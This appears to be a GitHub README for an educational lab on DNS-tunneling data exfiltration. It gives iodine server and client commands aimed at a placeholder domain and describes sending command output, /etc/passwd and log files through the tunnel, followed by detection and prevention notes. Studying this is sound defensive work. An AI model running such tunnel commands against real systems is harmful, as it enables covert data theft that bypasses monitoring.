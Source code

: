 **Data Stealing Using DNS Tunneling**

This project demonstrates how attackers can exploit the DNS protocol to steal data from a compromised system using DNS tunneling. The exercise highlights the misuse of DNS, a critical service for resolving domain names, to covertly bypass security measures.


**Tools & Technologies:**

Operating System: Kali Linux

Tools: iodine

Environment: Virtualized environment for secure testing and execution


**Attack Simulation Steps:**

**Setup the DNS Server:**

Deployed iodine on Kali Linux to create a DNS tunnel.

Command: **sudo iodined -f -c -P password 192.168.1.1 fake-domain.org**

**Setup the DNS Client:**

Configured the client to connect to the DNS server using iodine.

Command: **sudo iodine -f -P password -T A 192.168.1.1 fake-domain.org**


**Data Exfiltration:**

Executed various methods to stealthily transfer data through the DNS tunnel:

Method 1: Transferred the output of system commands.

Method 2: Transferred sensitive files such as /etc/passwd.

Method 3: Transferred system log files.


**Mitigation:**


**Detection:** Monitored DNS traffic using tools like Wireshark.

**Prevention:** Implemented DNS filtering and anomaly detection systems to block unauthorized DNS queries.

**Outcome:** Demonstrated how DNS tunneling can be exploited for covert data exfiltration and the importance of robust DNS security measures to detect and mitigate such attacks.



**Note:** All documents related to this project are included in the repository for detailed context and instructions.


**How to Use:**

Download and review the Learning Objective and Lab Manual documents for context, instructions, and mitigation strategies.

Set up the environment using the provided Bash scripts to simulate the DNS tunneling attack.

View the PowerPoint Presentation for a summary and educational overview of the project.


**Disclaimer:
This project is intended for educational purposes only. Unauthorized use of this code in real-world systems is illegal and unethical.**
